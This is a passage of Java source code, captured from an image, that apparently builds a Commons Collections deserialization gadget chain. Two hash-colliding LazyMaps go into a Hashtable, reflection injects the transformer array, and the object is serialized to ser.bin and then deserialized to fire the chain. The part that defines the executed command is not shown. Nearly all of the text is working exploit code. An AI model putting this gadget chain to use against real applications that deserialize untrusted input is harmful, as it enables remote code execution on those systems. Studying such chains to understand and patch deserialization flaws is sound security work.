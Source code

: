         Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(hashMap1, transformerChain);
        lazyMap1.put("yy", 1);
        Map lazyMap2 = LazyMap.decorate(hashMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 1);

        lazyMap2.remove("yy");

        Field iTransformers = ChainedTransformer.class.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        serialize(hashtable);
        unserialize("ser.bin");

    }

    public static void serialize(Object object) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(object);
    }

    //反序列化方法
    public static void unserialize(String filename) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));
        objectInputStream.readObject();
    }

